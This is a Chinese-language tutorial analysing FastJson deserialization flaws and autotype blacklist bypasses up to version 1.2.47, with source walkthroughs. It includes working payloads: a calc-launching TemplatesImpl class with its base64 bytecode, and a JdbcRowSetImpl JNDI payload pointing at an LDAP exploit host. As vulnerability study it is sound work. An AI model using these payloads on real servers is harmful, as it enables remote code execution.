









# FastJson 反序列化
- [FastJson 反序列化](#fastjson-反序列化)
  - [前置知识](#前置知识)
    - [JAVA对象->Json](#java对象-json)
      - [序列化方法](#序列化方法)
    - [Json->JAVA对象](#json-java对象)
      - [自省](#自省)
      - [反序列化方法](#反序列化方法)
    - [利用思路](#利用思路)
      - [寻找利用类思路](#寻找利用类思路)
  - [Fastjson <= 1.2.24 利用思路](#fastjson--1224-利用思路)
    - [TemplatesImpl恶意类](#templatesimpl恶意类)
      - [利用分析](#利用分析)
    - [JNDI注入](#jndi注入)
      - [JdbcRowSetImpl类](#jdbcrowsetimpl类)
  - [关于CheckAutoType](#关于checkautotype)
  - [1.2.25-1.2.41 ByPass](#1225-1241-bypass)
  - [<=1.2.42 ByPass](#1242-bypass)
  - [<=1.2.47 ByPass](#1247-bypass)
  - [参考](#参考)
## 前置知识

### JAVA对象->Json

#### 序列化方法

* JSON.toJSONString:将一个java对象转化为JSON字符串.

```java
import com.alibaba.fastjson.JSON;

public class FastJsonDemo {
    public static void main(String[] args) {
         test test1= new test(20,"Fastjson","des");
         String jsonstring = JSON.toJSONString(test1);
         System.out.println(jsonstring);
    }
    public static class test{
         public int age;
         public String name;
         private String des;
        public void setAge(int age) {
            this.age = age;
            System.out.println("setAge");
        }
        public int getAge(){
            System.out.println("getage");
            return this.age;
        }
        public void get(){
            System.out.println("get");
        }
        public void getDes(){
            System.out.println("getDes");
        }
        public test(int age, String name,String des){
             this.age = age;
             this.name = name;
             this.des = des;
         }
    }
}
```

运行结果:

```
getage
{"age":20,"name":"Fastjson"}

Process finished with exit code 0
```

可以看出在将JAVA对象反序列化为JSON字符串时,只会序列化其`Public`成员,且会自动调用该成员的`get`方法.

### Json->JAVA对象

#### 自省

Json默认是不支持自省的,即JSON字符串只含有相关成员属性,并不包含相关对象的类型信息.

但FastJson是支持自省的,即在序列化时传入`SerializerFeature.WriteClassName`属性,得到的JSON字符串则包含了对象类型信息,即在JSON字符串中可以指定类,且在反序列化时会调用其`setter`,`getter`方法,也是造成漏洞的原因,因为必然在反序列化时也会根据其得到类,如果该类为恶意构造的类则会造成RCE.

在使用`toJSONString`时传入`SerializerFeature.WriteClassName`.

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class FastJsonDemo {
    public static void main(String[] args) {
         test test1= new test(20,"Fastjson","des");
         String jsonstring = JSON.toJSONString(test1, SerializerFeature.WriteClassName);//传入SerializerFeature.WriteClassName
         System.out.println(jsonstring);
    }
    public static class test{
         public int age;
         public String name;
         private String des;
        public void setAge(int age) {
            this.age = age;
            System.out.println("setAge");
        }
        public int getAge(){
            System.out.println("getage");
            return this.age;
        }
        public void get(){
            System.out.println("get");
        }
        public void getDes(){
            System.out.println("getDes");
        }
        public test(int age, String name,String des){
             this.age = age;
             this.name = name;
             this.des = des;
         }
    }
}
```

结果

```
getage
{"@type":"FastJsonDemo$test","age":20,"name":"Fastjson"}

Process finished with exit code 0
```

在@type属性中存储了类对象.

#### 反序列化方法

* 非自省方式(手动指定类):`parseObject(String text, Class<T> clazz)` ，构造方法 + `setter` + 满足条件额外的`getter`.
* 自省方式:`JSONObject parseObject(String text)`，构造方法 + `setter` + `getter` + 满足条件额外的`getter`.
* `parse(String text)`，构造方法 + `setter` + 满足条件额外的`getter`.

### 利用思路

fastjson提供特殊字符段`@type`，这个字段可以指定反序列化任意类，并且会自动调用类中属性的特定的set，get方法.

- @可以指定反序列化成服务器上的任意类.
- 然后服务端会解析这个类，提取出这个类中符合要求的setter方法与getter方法（如setxxx）.
- 如果传入json字符串的键值中存在这个值（如xxx)，就会去调用执行对应的setter、getter方法（即setxxx方法、getxxx方法.

#### 寻找利用类思路
1、类的成员变量我们可以控制；
2、想办法在调用类的某个set\get\is函数的时候造成命令执行。

## Fastjson <= 1.2.24 利用思路
### TemplatesImpl恶意类
利用条件: 

服务端使用`parseObject()`进行解析,且开启了`Feature.SupportNonPublicField`特性,因为默认情况下FastJson只会反序列化public的方法和属性,而该类的`_bytecodes`和`_name`为private属性,只有开启了该特性才能不受此限制.   
通过触发点JSON.parseObject()这个函数，将json中的类设置成`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`并通过特意构造达到命令执行.  

jdk版本1.7左右

#### 利用分析
在`TemplatesImpl`类中中有一个`_bytecodes`字段,部分函数会根据该字段来生成java的实例,从而可以通过该字段传入一个恶意的类,通过该恶意类的生成来执行命令.  
**恶意类:**
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class test extends AbstractTranslet {

    public test() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        test t = new test();
    }
}
```
生成class文件后将内容base64编码放到`_bytecodes`字段,完整payload提交如下:
```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "_bytecodes": ["yv66vgAAADQANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMdGVzdDsBAApFeGNlcHRpb25zBwAsAQAJdHJhbnNmb3JtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACWhhRm5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALQEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAF0BwAuAQAKU291cmNlRmlsZQEACXRlc3QuamF2YQwACAAJBwAvDAAwADEBAAhjYWxjLmV4ZQwAMgAzAQAEdGVzdAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAsAAAAOAAMAAAANAAQADgANAA8ADAAAAAwAAQAAAA4ADQAOAAAADwAAAAQAAQAQAAEAEQASAAEACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAATAAwAAAAqAAQAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAFQAWAAIAAAABABcAGAADAAEAEQAZAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAYAAwAAAAgAAMAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAGgAbAAIADwAAAAQAAQAcAAkAHQAeAAIACgAAAEEAAgACAAAACbsABVm3AAZMsQAAAAIACwAAAAoAAgAAABsACAAcAAwAAAAWAAIAAAAJAB8AIAAAAAgAAQAhAA4AAQAPAAAABAABACIAAQAjAAAAAgAk"], "_name": "lightless", "_tfactory": { }, "_outputProperties":{ }}
```
调用栈如下:

在setValue处调用了反射,在getTransletInstance()的`defineTransletClasses()`对`__bytecodes`进行还原,然后进行初始化触发命令执行.

### JNDI注入

因为第一种的利用方式需要开启相关支持特性,通用性不高.而利用JNDI注入则不受该限制,只受JDK版本限制.
#### JdbcRowSetImpl类
在该类的`SetAutoCommit`函数中会对变量`datasourceName`进行Lookup,从而造成JNDI注入.

## 关于CheckAutoType

CheckAutoType是针对在1.2.24后的补丁,在`DefaultJSONParser.class`的中增加了一个`config.checkAutoType`函数在实例化指定类时来进行过滤,思路即加入黑名单(denylist)和白名单(acceptlist,默认为空),对恶意类进行过滤,当反序列化的类名匹配到黑名单的类时即停止反序列化.



黑名单如下:


同时在1.2.25之后的版本Autotype功能是受限的所以同时增加了一个`AutoTypeSupport`属性,首先可以通过设置白名单的方式来设置可以被反序列化的类.

添加白名单有三种方式，三选一，如下:

1. 在代码中配置

```
ParserConfig.getGlobalInstance().addAccept("com.taobao.pac.client.sdk.dataobject."); 
```

如果有多个包名前缀，分多次addAccept

2. 加上JVM启动参数

```
    -Dfastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao. 
```

如果有多个包名前缀，用逗号隔开

3. 通过fastjson.properties文件配置。

在1.2.25/1.2.26版本支持通过类路径的fastjson.properties文件来配置，配置方式如下：

```
fastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao. // 如果有多个包名前缀，用逗号隔开
```

* 如果配置了safeMode，配置白名单也是不起作用的。

在白名单无法解决问题的时候可以选择再将AutoType功能打开,在该情况下使用的是黑名单(可以自己进行添加)进行防御,两种方法打开autotype，二选一，如下：

1. JVM启动参数

```
-Dfastjson.parser.autoTypeSupport=true
```

2. 代码中设置

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); 
```

如果有使用非全局ParserConfig则用另外调用setAutoTypeSupport(true).

[AutoType官方文档](https://github.com/alibaba/fastjson/wiki/enable_autotype)

在AutoType中的过滤顺序大致如下:

1. 如果开启了`AutoType`,进行白名单校验,如果匹配到白名单的类则直接返回该类,如果没有匹配到白名单则继续进行黑名单匹配,匹配到黑名单则抛出异常(开启白名单的情况下).

   

2. 在缓存中查找指定类,如果找到指定类则直接进行返回,其中有一处判断指定类是否继承于`expectClass`,但`expectClass`在`AutoType`调用时为空,即不用管该判断.

   

3. 在没有开启`AutoType`的情况下(也是默认情况),先进行黑名单检测,然后进行白名单检测,黑名单检测到即退出,白名单检测到即直接返回该类.

   

4. 检测指定类是否继承于`ClassLoder`和`DataSource`,如果是的话直接抛出异常.

   

5. 最后判断如果没有开启`AutoType`则直接抛出异常退出,不然则最终返回指定类实例.

   

## 1.2.25-1.2.41 ByPass

在1.2.24之后由于默认不支持`AutoType`了,ByPass都是在开启了`AutoType`的情况下进行的,主要是针对其黑名单进行绕过,因为在不开启的情况下,只有匹配到白名单的类才会进行实例化了,导致无法继续利用.

在FastJson获取实例类的使用的`TypeUtils.loadClass`方法中,有这么一段处理过程.


其中发现如果类名以`L`开头和`;`结尾的话则会将该两个字符去掉进行加载,即在类名前加一个`L`,结尾加`;`即可绕过之前的黑名单了.

即`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`变成`Lcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;`即可.

## <=1.2.42 ByPass

在1.2.42中继续对之前的ByPass进行了修复,修复的方式是删除指定前面的`L`和后面的`;`,并且将黑名单的名称使用对应的Hash进行替换.



当使用Hash匹配到`L`开头和`;`结尾的类名时对第一个`L`和最后一个`;`进行删除再继续执行,问题在于只删除了一次,所以在类名前面使用`LL`,结尾使用`;;`即可绕过.

## <=1.2.47 ByPass

在1.2.43版本对1.2.42进行了修复,修复方式是当匹配到类名第一个字符为`L`,最后一个字符为`;`时直接抛出异常.



因为这次的ByPass关键在于`checkAutoType`以下代码段,从该段代码得知,`clazz`可以有有个地方获取

* clazz = TypeUtils.getClassFromMapping(typename)
* clazz = this.deserializers.findclass(typename)


但在之前在开启`AutoType`的情况下还有一次黑名单的校验,但要同时满足缓存中没有该类才会抛出异常,即`TypeUtils.getClassFromMapping(typeName) == null`,这也是ByPass的一个关键点.


首先来看第一次获取`clazz`跟进`TypeUtils.getClassFromMapping(typeName)`,里面直接返回了`mappings.get(className)`.



而`mapping`的定义如下.

这是一个空的HashMap,直接搜索其添加方法`put`方法,有两处地方调用了该map的添加方法.

其中一个为`addBaseClassMappings()`,但其参数不可控,忽略.

另一个为`loadClass`,引用该方法的地方中需要`cache`参数为`true`,且类名要可控,最后来到`fastjson.util.loadClass`.



而调用该`loadClass`的地方则在`MiscCodec.deserialze(DefaultJSONParser parser, Type clazz, Object fieldName)`.


下面来分析`MiscCodec.deserialze`.

从调用处可以看到`clazz`要是一个`Class.class`类型,倒序进行分析到达该处代码的条件.

```java
    public <T> T deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) {
        JSONLexer lexer = parser.lexer;
			...
            ...
			//对InetSocketAddress类型的处理,忽略.
        Object objVal;

        if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
            parser.resolveStatus = DefaultJSONParser.NONE;
            parser.accept(JSONToken.COMMA);
			//此处开始循环节点解析json字符串.
            if (lexer.token() == JSONToken.LITERAL_STRING) {
                if (!"val".equals(lexer.stringVal())) {//Json字符以val开头,不然抛出异常.
                    throw new JSONException("syntax error");
                }
                lexer.nextToken();
            } else {
                throw new JSONException("syntax error");
            }

            parser.accept(JSONToken.COLON);

            objVal = parser.parse();

            parser.accept(JSONToken.RBRACE);
        } else {
            objVal = parser.parse();
        }
		//总的来说,如果parser.resolveStatus == DefaultJSONParser.TypeNameRedirect,则必需要含有一个val开头的Json字段,如不不等于,则直接进行赋值objVal.
        String strVal;
        if (objVal == null) {//objval也不能为空,不然strVal为空后续则会return null.
            strVal = null;
        } else if (objVal instanceof String) {//所以只有一种情况,即objVal为String.
            strVal = (String) objVal;
        } else {//进入该分支后会return出去,不能进入该分支.
            if (objVal instanceof JSONObject) {
                JSONObject jsonObject = (JSONObject) objVal;

                if (clazz == Currency.class) {
                    String currency = jsonObject.getString("currency");
                    if (currency != null) {
                        return (T) Currency.getInstance(currency);
                    }

                    String symbol = jsonObject.getString("currencyCode");
                    if (symbol != null) {
                        return (T) Currency.getInstance(symbol);
                    }
                }

                if (clazz == Map.Entry.class) {
                   return (T) jsonObject.entrySet().iterator().next();
                }

                return jsonObject.toJavaObject(clazz);
            }
            throw new JSONException("expect string");
        }

        if (strVal == null || strVal.length() == 0) {//此处要strVal不为空.
            return null;
        }
		...
        ...//中间忽略一些针对不同clazz类型的判断.
        if (clazz == Class.class) {
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
        }
```

综合来说,要达到`TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());`即要`strVal`不为空,而`strVal`来源于`objVal`,所以要`strVal`不为空,而`objVal`的值来源于解析器parse解析,结合代码得知,需要含有一个以`val`开头的字段,其中的值即我们想要加入`mapping`的恶意类,而且该Json的`@type`中的类要为Class类型.

最后的payload如下,即可将`com.sun.rowset.JdbcRowSetImpl`加入缓存,这样在下一次`AutoType`遇到该类时则会直接返回该类,从而绕过之前的防护措施.

```
{
    "@type": "java.lang.Class", 
    "val": "com.sun.rowset.JdbcRowSetImpl"
}
```

有时候有负载均衡的情况,造成利用失败,所以将两次payload放到一起.

```
{
    "a": {
        "@": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://localhost:1389/Exploit", 
        "autoCommit": true
    }
}
```

**总结:**

该次绕过主要是利用一个缓存机制,FastJson为了提高运行效率,在`AutoType`进行过滤的时候,会先从缓存中去寻找指定类,如果有的话则会直接返回该类而不进行后续操作,从而ByPass.

**修复:**

在`TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());`处直接设置了`cache`为False.



## 参考

https://www.cnblogs.com/sijidou/p/13121332.html

https://www.freebuf.com/vuls/208339.html

https://xz.aliyun.com/t/7027

https://xz.aliyun.com/t/7846